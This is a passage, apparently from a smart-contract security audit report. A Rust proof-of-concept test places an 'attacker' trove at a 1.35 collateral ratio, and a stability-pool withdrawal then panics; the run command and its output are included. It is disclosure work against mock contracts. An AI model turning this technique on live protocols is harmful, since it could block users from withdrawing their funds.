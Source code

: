 ```
        // 1346.75 / (1000* 1.005 ) = 1.35
    )
    .await;

    let icr = trove_manager_abi::get_nominal_icr(
        &contracts.asset_contracts[0].trove_manager,
        Identity::Address(attacker_wallet.address().into()),
    )
    .await
    .value;

    println!("Attacker Initial ICR: {}", icr);


    // Admin try to withdraw from stability pool but failed
    let withdraw_result = stability_pool_abi::withdraw_from_stability_pool(
        &contracts.stability_pool,
        &contracts.community_issuance,
        &contracts.usdf,
        &contracts.asset_contracts[0].asset,
        &contracts.sorted_troves,
        &contracts.asset_contracts[0].oracle,
        &contracts.asset_contracts[0].mock_pyth_oracle,
        &contracts.asset_contracts[0].mock_redstone_oracle,
        &contracts.asset_contracts[0].trove_manager,
        1_000 * PRECISION,
    )
    .await
    .unwrap();

}
```

run `cargo test -- --nocapture fails_withdraw_underattack`, output like:

```
Deploying core contracts...
Initializing core contracts...
Attacker Initial ICR: 1350000000
thread 'functions::failure::fails_withdraw_underattack' panicked at contracts/stability-pool-contract/tests/functions/failure.rs:287:6:
```